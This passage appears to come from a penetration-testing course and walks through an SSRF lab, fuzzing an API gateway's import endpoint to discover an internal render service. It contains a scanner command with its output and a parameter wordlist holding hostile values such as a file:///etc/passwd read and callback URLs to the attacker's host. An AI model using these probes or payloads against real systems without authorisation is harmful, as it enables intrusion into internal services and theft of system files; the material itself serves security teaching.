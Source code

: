 {"errors":[{"message":"Request failed with status code 404","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
Listing 37 - Searching for /render

Unfortunately, our request failed to find a valid resource. We need to consider that the URL of the backend service might not match the URL the API gateway exposes. For example, the backend URL could include versioning. Perhaps we can do some more fuzzing and inspect response codes to find the backend service.

First, we'll need to build a short wordlist with potential URLs.

/
/render
/v1/render
/api/render
/api/v1/render
Listing 38 - Contents of paths.txt

After modifying one of our existing scripts, we'll run it.

kali@kali:~$ ./ssrf_path_scanner.py -t http://apigateway:8000/files/import -s http://172.16.16.5:9000 -p paths.txt --timeout 5
/                 OPEN - returned 404
/render           OPEN - returned 404
/v1/render        OPEN - returned 404
/api/render       {"errors":[{"message":"Request failed with status code 400","extensions":{"code":"INTERNAL_SERVER_ERROR"}}]}
/api/v1/render    OPEN - returned 404
Listing 39 - Checking for possible paths

We received one interesting response: "Request failed with status code 400". An HTTP 400 Bad Request usually indicates that the server cannot process a request due to missing data or a client error. What might we be missing from our request? What could the render service do? We only know the name and it isn't very descriptive. Let's suppose it draws or creates something. How might we provide data to it?

Let's put together a list of potential parameter names and values. There are plenty of wordlists of parameter names available online.1 Let's start with a smaller list of values that seem relevant. We can always expand to a larger list if we need to. We'll include our Kali host in any potential URL or link field so we can watch for working requests.

?data=foobar
?file=file:///etc/passwd
?url=http://192.168.118.3/render/url
?input=foobar
?target=http://192.168.118.3/render/target
Listing 40 - Contents of paths2.txt

Even if we don't have a valid parameter or value, perhaps we can still generate an error on the render service that would give us a clue as to our next step. When we are operating in an unknown environment or with an unfamiliar system, we sometimes have to rely on small differences in server responses, such as error messages, to infer what is happening in the unknown application.

Let's try running this new wordlist through our script, making sure to update the SSRF target value to the new URL.
